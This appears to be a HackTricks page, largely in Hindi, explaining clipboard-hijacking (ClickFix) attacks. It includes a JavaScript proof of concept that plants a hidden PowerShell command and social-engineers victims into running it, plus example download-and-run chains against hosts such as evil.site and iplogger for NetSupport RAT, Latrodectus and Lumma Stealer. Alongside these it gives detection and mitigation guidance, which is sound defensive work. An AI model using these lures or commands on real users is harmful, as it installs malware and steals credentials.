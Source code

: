 # Clipboard Hijacking (Pastejacking) Attacks

{{#include ../../banners/hacktricks-training.md}}

> "आप कभी भी कुछ ऐसा न पेस्ट करें जो आपने खुद कॉपी नहीं किया।" – पुरानी लेकिन अभी भी मान्य सलाह

## Overview

Clipboard hijacking – जिसे *pastejacking* भी कहा जाता है – इस तथ्य का दुरुपयोग करता है कि उपयोगकर्ता नियमित रूप से कमांड को कॉपी और पेस्ट करते हैं बिना उन्हें जांचे। एक दुर्भावनापूर्ण वेब पृष्ठ (या किसी भी JavaScript-सक्षम संदर्भ जैसे कि एक Electron या Desktop एप्लिकेशन) प्रोग्रामेटिक रूप से हमलावर-नियंत्रित पाठ को सिस्टम क्लिपबोर्ड में रखता है। पीड़ितों को, सामान्यतः सावधानीपूर्वक तैयार किए गए सोशल-इंजीनियरिंग निर्देशों द्वारा, **Win + R** (Run संवाद), **Win + X** (Quick Access / PowerShell) दबाने या एक टर्मिनल खोलने और क्लिपबोर्ड सामग्री को *पेस्ट* करने के लिए प्रोत्साहित किया जाता है, जिससे तुरंत मनमाने कमांड निष्पादित होते हैं।

क्योंकि **कोई फ़ाइल डाउनलोड नहीं की जाती और कोई अटैचमेंट नहीं खोला जाता**, यह तकनीक अधिकांश ई-मेल और वेब-सामग्री सुरक्षा नियंत्रणों को बायपास करती है जो अटैचमेंट, मैक्रोज़ या सीधे कमांड निष्पादन की निगरानी करती हैं। इसलिए यह हमला फ़िशिंग अभियानों में लोकप्रिय है जो NetSupport RAT, Latrodectus लोडर या Lumma Stealer जैसे कमोडिटी मैलवेयर परिवारों को वितरित करते हैं।

## JavaScript Proof-of-Concept
```html
<!-- Any user interaction (click) is enough to grant clipboard write permission in modern browsers -->
<button id="fix" onclick="copyPayload()">Fix the error</button>
<script>
function copyPayload() {
const payload = `powershell -nop -w hidden -enc <BASE64-PS1>`; // hidden PowerShell one-liner
navigator.clipboard.writeText(payload)
.then(() => alert('Now press  Win+R , paste and hit Enter to fix the problem.'));
}
</script>
```
पुराने अभियानों ने `document.execCommand('copy')` का उपयोग किया, जबकि नए अभियानों में असिंक्रोनस **Clipboard API** (`navigator.clipboard.writeText`) पर निर्भरता होती है।

## ClickFix / ClearFake प्रवाह

1. उपयोगकर्ता एक टाइपोसक्वाटेड या समझौता किए गए साइट पर जाता है (जैसे `docusign.sa[.]com`)
2. इंजेक्टेड **ClearFake** जावास्क्रिप्ट एक `unsecuredCopyToClipboard()` सहायक को कॉल करता है जो चुपचाप एक Base64-कोडित PowerShell एक-लाइनर को क्लिपबोर्ड में स्टोर करता है।
3. HTML निर्देश पीड़ित को बताते हैं: *“**Win + R** दबाएं, कमांड पेस्ट करें और समस्या को हल करने के लिए Enter दबाएं।”*
4. `powershell.exe` निष्पादित होता है, एक आर्काइव डाउनलोड करता है जिसमें एक वैध निष्पादन योग्य और एक दुर्भावनापूर्ण DLL (क्लासिक DLL साइडलोडिंग) होता है।
5. लोडर अतिरिक्त चरणों को डिक्रिप्ट करता है, शेलकोड इंजेक्ट करता है और स्थिरता स्थापित करता है (जैसे शेड्यूल किया गया कार्य) – अंततः NetSupport RAT / Latrodectus / Lumma Stealer चलाता है।

### उदाहरण NetSupport RAT श्रृंखला
```powershell
powershell -nop -w hidden -enc <Base64>
# ↓ Decodes to:
Invoke-WebRequest -Uri https://evil.site/f.zip -OutFile %TEMP%\f.zip ;
Expand-Archive %TEMP%\f.zip -DestinationPath %TEMP%\f ;
%TEMP%\f\jp2launcher.exe             # Sideloads msvcp140.dll
```
* `jp2launcher.exe` (वैध Java WebStart) अपने निर्देशिका में `msvcp140.dll` की खोज करता है।
* दुर्भावनापूर्ण DLL **GetProcAddress** के साथ APIs को गतिशील रूप से हल करता है, **curl.exe** के माध्यम से दो बाइनरी (`data_3.bin`, `data_4.bin`) डाउनलोड करता है, उन्हें एक रोलिंग XOR कुंजी `"https://google.com/"` का उपयोग करके डिक्रिप्ट करता है, अंतिम शेलकोड को इंजेक्ट करता है और **client32.exe** (NetSupport RAT) को `C:\ProgramData\SecurityCheck_v1\` में अनजिप करता है।

### Latrodectus Loader
```
powershell -nop -enc <Base64>  # Cloud Identificator: 2031
```
1. **curl.exe** के साथ `la.txt` डाउनलोड करता है
2. **cscript.exe** के अंदर JScript डाउनलोडर को निष्पादित करता है
3. एक MSI पेलोड लाता है → एक साइन किए गए एप्लिकेशन के बगल में `libcef.dll` छोड़ता है → DLL साइडलोडिंग → शेलकोड → Latrodectus।

### MSHTA के माध्यम से Lumma Stealer
```
mshta https://iplogger.co/xxxx =+\\xxx
```
The **mshta** कॉल एक छिपा हुआ PowerShell स्क्रिप्ट लॉन्च करता है जो `PartyContinued.exe` को प्राप्त करता है, `Boat.pst` (CAB) को निकालता है, `extrac32` और फ़ाइल संयोजन के माध्यम से `AutoIt3.exe` को पुनर्निर्माण करता है और अंततः एक `.a3x` स्क्रिप्ट चलाता है जो ब्राउज़र क्रेडेंशियल्स को `sumeriavgv.digital` पर एक्सफिल्ट्रेट करता है।

## Detection & Hunting

ब्लू-टीम क्लिपबोर्ड, प्रक्रिया-निर्माण और रजिस्ट्री टेलीमेट्री को मिलाकर पेस्टजैकिंग दुरुपयोग को पहचान सकती है:

* Windows Registry: `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` **Win + R** कमांड का एक इतिहास रखता है - असामान्य Base64 / ओबफस्केटेड प्रविष्टियों की तलाश करें।
* सुरक्षा इवेंट ID **4688** (प्रक्रिया निर्माण) जहां `ParentImage` == `explorer.exe` और `NewProcessName` में { `powershell.exe`, `wscript.exe`, `mshta.exe`, `curl.exe`, `cmd.exe` }।
* इवेंट ID **4663** फ़ाइल निर्माण के लिए `%LocalAppData%\Microsoft\Windows\WinX\` या असामान्य 4688 इवेंट से ठीक पहले अस्थायी फ़ोल्डरों के तहत।
* EDR क्लिपबोर्ड सेंसर (यदि मौजूद हैं) - `Clipboard Write` के तुरंत बाद एक नए PowerShell प्रक्रिया का सहसंबंध करें।

## Mitigations

1. ब्राउज़र हार्डनिंग - क्लिपबोर्ड लिखने की पहुंच को अक्षम करें (`dom.events.asyncClipboard.clipboardItem` आदि) या उपयोगकर्ता इशारा की आवश्यकता करें।
2. सुरक्षा जागरूकता - उपयोगकर्ताओं को संवेदनशील कमांड *टाइप* करने या पहले उन्हें टेक्स्ट संपादक में पेस्ट करने के लिए सिखाएं।
3. PowerShell Constrained Language Mode / Execution Policy + Application Control को मनमाने एक-लाइनर्स को ब्लॉक करने के लिए।
4. नेटवर्क नियंत्रण - ज्ञात पेस्टजैकिंग और मैलवेयर C2 डोमेन के लिए आउटबाउंड अनुरोधों को ब्लॉक करें।

## Related Tricks

* **Discord Invite Hijacking** अक्सर एक दुर्भावनापूर्ण सर्वर में उपयोगकर्ताओं को लुभाने के बाद उसी ClickFix दृष्टिकोण का दुरुपयोग करता है:
{{#ref}}
discord-invite-hijacking.md
{{#endref}}

## References

- [Fix the Click: Preventing the ClickFix Attack Vector](https://unit42.paloaltonetworks.com/preventing-clickfix-attack-vector/)
- [Pastejacking PoC – GitHub](https://github.com/dxa4481/Pastejacking)

{{#include ../../banners/hacktricks-training.md}}
